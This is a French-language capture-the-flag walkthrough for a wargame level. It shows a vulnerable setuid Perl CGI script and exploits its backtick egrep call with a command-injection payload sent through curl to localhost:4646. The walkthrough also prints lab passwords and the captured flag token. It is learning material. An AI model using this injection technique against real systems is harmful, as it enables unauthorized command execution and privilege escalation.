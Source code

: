# Level12

> login:password -> *`level12:fa6v5ateaw21peobuub8ipe6s`*
```
:~$ su level12
Password:fa6v5ateaw21peobuub8ipe6s
```
---

```
:~$ pwd
/home/user/level12
```

```
:~$ ls -la
...
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
...
```

Le Home contient un script perl :

```
:~$ cat level.pl
#!/usr/bin/env perl
# localhost:4646 (ici indique qu'il écoute sur le port :4646)
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; (ici transforme le lowercase en uppercase)
  $xx =~ s/\s.*//; (ici supprime tout ce qui va suivre un espace)
  @output = `egrep "^$xx" /tmp/xd 2>&1`; (ici il execute le pametre en effectuant une substitution avant. C'est une faille)
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
(ici print "." ou ".." en fonction du nombre de paramétres)

n(t(param("x"), param("y"))); (ici prends 2 paramétres x et y)
```

On remarque que le script est un serveur qui écoute sur le port `:4646` et utilise un `egrep`. On peux aussi voir que le script prends 2 paramétres `x` et `y`, et que le fichier passé  en `x` doit forcément être en masjuscule, car une regex passe cet argument en uppercase, tandis que l'argument `y` n'est juste pas utilisé.\

On va alors créer un script en se déplaçant dans `/tmp` que l'on pourra appeler depuis level12.pl ne prenant soin de respecter quelques étapes, dont la plus importante, le nom du script devra être en majuscule.

```
:~$ cd /tmp

:~$ echo "getflag > /tmp/flag12" > GETFLAG

:~$ chmod 777 GETFLAG (ici je lui donne des droits, sinon il ne pourra pas utiliser la commande `getflag`)

:~$ cd

:~$ curl 'localhost:4646/?x=`/*/GETFLAG`' (ici j'utilise une `*` pour éviter le passage du caractère en uppercase)

:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

```

Le flag nous permet de se connecter au level13
`level13:g1qKMiRpXf53AWhDaU7FEkczr`